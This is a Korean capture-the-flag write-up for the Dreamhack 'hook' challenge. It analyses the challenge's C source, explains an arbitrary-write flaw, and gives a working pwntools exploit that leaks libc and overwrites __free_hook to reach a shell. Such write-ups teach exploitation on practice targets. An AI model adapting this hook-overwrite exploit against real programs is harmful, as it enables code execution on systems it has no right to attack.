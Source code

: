 hook 라이트업
===========

## 보호 기법 확인

<img width="1013" height="182" alt="image" src="https://github.com/user-attachments/assets/633d44b2-1b00-48f1-9bc0-19d48b9f2712" />


## 코드 분석

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}
```


* **취약점의 핵심:** `main` 함수에서 `*(long *)*ptr = *(ptr+1);` 코드가 실행된다.
    * `ptr`은 `malloc(size)`로 할당받은 힙 메모리 주소를 가리킨다.
    * 코드는 `ptr`이 가리키는 값(즉, `ptr[0]`)을 주소로 보고
      그 주소에 `ptr`의 다음 값(즉, `ptr[1]`)을 8바이트(long) 크기로 덮어쓰는 기능을 한다.
    * 공격자가 `ptr`에 원하는 값을 입력하여 임의의 메모리 주소를 조작(덮어쓰기)할 수 있게 하는 취약점이다.

* **공격 목표: `__free_hook` 변조**
    * `main` 함수 마지막에는 `free(ptr);`이 두 번 호출되고 그 뒤에 `system("/bin/sh");`가 실행된다.
    * `free(ptr)`을 두 번 호출하는 것은 에로룰 발생시킨다. 
    * 이 문제를 해결하기 위해 `free` 함수가 호출될 때 `system("/bin/sh")`와 같은 쉘을 실행하도록 만들고자 한다.
    * 이를 위해 `free` 함수가 사용하는 **`__free_hook`** 변수를 조작하는 방법을 사용한다.
    * 위에서 분석한 `*(long *)*ptr = *(ptr+1);` 취약점을 이용하여 `__free_hook`의 주소에 `system` 함수의
      주소를 덮어쓸 것이다.


### 익스플로잇

<img width="891" height="117" alt="image" src="https://github.com/user-attachments/assets/645bb38c-3785-4122-8f7f-7e836b19fd87" />

ida에서 열어서 "/bin/sh" 주소 먼저 알아내고

### 익스플로잇 코드

```python
from pwn import*
p = remote("host8.dreamhack.games", 20252)
context.log_level = "debug"
e = ELF("./hook")
libc = ELF("./libc-2.23.so")
 
#one_gadget = [0xf1147, 0x45216, 0x4526a, 0xf02a4]
main_system = 0x0400A11
 
p.recvuntil("stdout: ")
stdout = int(p.recv(14), 16)
 
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']
#magic = libc_base + one_gadget[2]
 
payload = p64(free_hook) + p64(main_system)
 
p.sendlineafter("Size: ", "400")
 
 
p.sendlineafter("Data: ", payload)
 
p.interactive()
```




<img width="957" height="157" alt="image" src="https://github.com/user-attachments/assets/3adb7c14-927e-4c33-9a5a-08136188c528" />
